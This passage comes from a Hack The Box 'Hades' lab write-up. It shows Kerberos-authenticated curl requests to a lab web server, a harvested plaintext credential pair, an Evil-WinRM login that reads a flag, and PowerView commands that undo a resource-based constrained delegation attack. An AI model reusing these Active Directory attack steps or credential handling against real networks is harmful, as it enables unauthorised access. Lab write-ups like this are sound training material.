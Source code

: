 Now I can use [cURL](https://docs.cloudera.com/runtime/7.2.0/scaling-namespaces/topics/hdfs-curl-url-http-spnego.html) with `--negotiate` option to force Kerberos HTTP SPNEGO authentication:

```
PS > cmd /c curl --negotiate -u : http://web.htb.local -o out.html -v
HTTP/1.1 401 Unauthorized
Content-Length: 1293
Content-Type: text/html
Server: Microsoft-IIS/8.5
WWW-Authenticate: Negotiate
Date: Thu, 02 Jul 2020 14:27:13 GMT

HTTP/1.1 200 OK
Content-Length: 280496
Content-Type: text/html
Last-Modified: Tue, 15 Oct 2019 08:46:21 GMT
Accept-Ranges: bytes
ETag: "51a8b943583d51:0"
Server: Microsoft-IIS/8.5
WWW-Authenticate: Negotiate oYGkMIGhoAMKAQChCwYJKoZIgvcSAQICooGMBIGJYIGGBgkqhkiG9xIBAgICAG93MHWgAwIBBaEDAgEPomkwZ6ADAgERomAEXufd4D47ZEBuB7JuCsB3YfgYInD/DXonI4hKdd9UB+at/lBPMYAJD+EQmCAvgTDpavJ4bN6+u4fCQkEzpZadGwmsQG/faD5nibvbSfYhdsuWbJLczdFs/K9pNfyXyko=
Persistent-Auth: true
Date: Thu, 02 Jul 2020 14:27:13 GMT
...
```

The web page contained another pair of user creds: `remote_user:FZg28$dJe*Hx7c`.

[![web-http.png](/assets/images/htb/endgames/hades/web-http.png)](/assets/images/htb/endgames/hades/web-http.png)
{:.center-image}

Then I was able to WinRM into 192.168.3.202 as remote_user and get the fifth flag:

```
*Evil-WinRM* PS C:\Users\remote_user.HTB\desktop> cat flag.txt
HADES{From_RBCD_*****************}
```

Clear the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on WEB and try to remove the fake machine account:

```
PS > Get-DomainComputer $TargetComputer -Verbose -Credential $Cred | Set-DomainObject -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity' -Verbose -Credential $Cred
PS > Remove-MachineAccount -MachineAccount fakemachine123 -Verbose -Credential $Cred
[-] Exception calling "DeleteTree" with "0" argument(s): "Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))"
```
